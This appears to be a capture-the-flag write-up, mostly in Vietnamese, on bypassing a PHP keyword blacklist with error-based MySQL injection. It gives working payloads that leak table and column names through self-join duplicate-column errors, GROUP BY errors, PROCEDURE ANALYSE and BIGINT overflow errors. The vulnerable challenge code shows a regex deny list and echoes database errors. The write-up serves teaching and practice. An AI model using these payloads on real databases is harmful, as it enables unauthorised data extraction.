 # Error based MySql injection "heavy blacklists"

```php
if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extractxml|xml|betweent|count|column|sleep|benchmark|\<|\>|\=/is', $_GET['id'])){
	die('...');
}
else{
	// .....
	if(!$run_query) {
		echo mysqli_error($conn);
	}
	else{
		// .....
	}
}
```

## Intended

### MySQL limit double column error
Ta biết trước table_name là `flag_here_hihi`, có 3 column(.,.,.)
```sql
?id=1*(select * (select * from flag_here_hihi as a join flag_here_hihi as b using(id)) as c)
```
- Ta không thể join 2 bảng cùng tên với nhau nên ta cần đổi tên và join lại thành 1 bảng. Sau khi join ta có bảng c với 6 columns
- Vì ta không biết tên column cần query nên ta `select *`, khi query hit colunm đầu tiên thì không thể lấy bởi mysql thấy có 2 column duplicate nên báo lỗi tên column thứ nhất -> ta được `id` column.
- Để lấy tên column tiếp theo, ta dùng `using(id)` có tác dụng concat 2 column id trùng nhau lại với nhau thể nên khi tiếp tục `select *`, id column không còn lỗi dính lỗi duplicate đến column thứ 2 lại duplicate --> báo lỗi với tên column thứ 2 chính là `t_fl4g_name_su` ... tương tự ta được column thứ 3 `t_fl4g_v3lue_su`.


Có table_name, column_name --> flag

## Uninteded

### group by id
MySQL version >= 5.7.5
**dump columns**
```sql
?id=1 group by id
```
Group results thành các nhóm với nhiều thuộc tính sau đó lấy 1 thuộc tính từ group đó, tuy nhiên nhóm vừa group có nhiều thuộc tính nên mysql không biết lấy thuộc tính nào ==> dump error

### typo - procedure analyse
```sql
?id=1 limit 2,1 procedure analyse(1);
```
analyse column thứ 2(chứa flag)

### Out of range 
Vì ~0 là bigest int number --> ~0 + 1 --> mysql number out of range --> display error results

**query dump columns trong table**:
```sql
?id=1*(select ~0 + ( select 1 from (select * from flag_here_hihi limit 1 ) as a))
# BIGINT UNSIGNED value is out of range in '......'
```

- `1*(select ~0 + ( select 1 from flag_here_hihi limit 1 )` trả về error tên table mà sinh ra error
- 
- `1*(select ~0 + ( select 1 from (select * from flag_here_hihi limit 1 ) as a)` trả về error tên columns từ bảng flag_here_hihi sinh ra error(không phải tên a mà chính là các columns)
